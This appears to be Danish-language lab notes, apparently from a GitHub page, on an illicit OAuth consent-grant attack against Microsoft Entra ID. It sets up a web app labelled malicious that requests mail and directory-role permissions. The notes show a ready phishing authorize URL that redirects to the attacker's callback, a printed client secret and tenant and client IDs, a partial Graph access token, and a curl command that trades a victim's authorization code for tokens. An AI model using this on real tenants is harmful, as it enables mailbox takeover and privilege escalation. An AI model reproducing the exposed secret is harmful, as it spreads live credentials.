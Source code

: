 lavede en webapp i Entra ID (AzureAD) og tilføjede nogle lidt "farlige" delegated permissions til den.

https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.Read%20User.ReadWrite.All%20Mail.Read%20Mail.Send%20RoleManagement.ReadWrite.Directory&response_mode=query&prompt=consent

Tenant ID *(connection string)*
5dc7e152-c906-4d95-bd1a-bcf75eb3e939

Application (client) ID *(username)*
675c27b6-e1ff-4a2c-924e-701186f97951

client Secret (Malicious) *(password)*
eV68Q~WEECCIzSJKzATfkd2rly.Kxds1SFzNDbyg

Redirect URIs
https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback


`https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.ReadWrite&response_mode=query&prompt=consent`

**while connected in `Connect-AzAccount`**
$context = Get-AzContext

$token = (Get-AzAccessToken -ResourceUrl "https://graph.microsoft.com").Token

Write-Output $token = eyJ0eXAiOiJKV1QiLCJub25jZSI6InJObkdLbVU0WmF3R0YwaWxOVk1nMDM0TUdVa2pjOFRIY001QXVhd2t0UEUiLCJhbGciOiJSUzI1...



```bash
curl -X POST "https://login.microsoftonline.com/YOUR_TENANT_ID/oauth2/v2.0/token" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "client_id=675c27b6-e1ff-4a2c-924e-701186f97951" \
  -d "client_secret=YOUR_CLIENT_SECRET" \
  -d "grant_type=authorization_code" \
  -d "code=AUTHORIZATION_CODE_FROM_URL" \
  -d "redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback" \
  -d "scope=User.ReadWrite"
```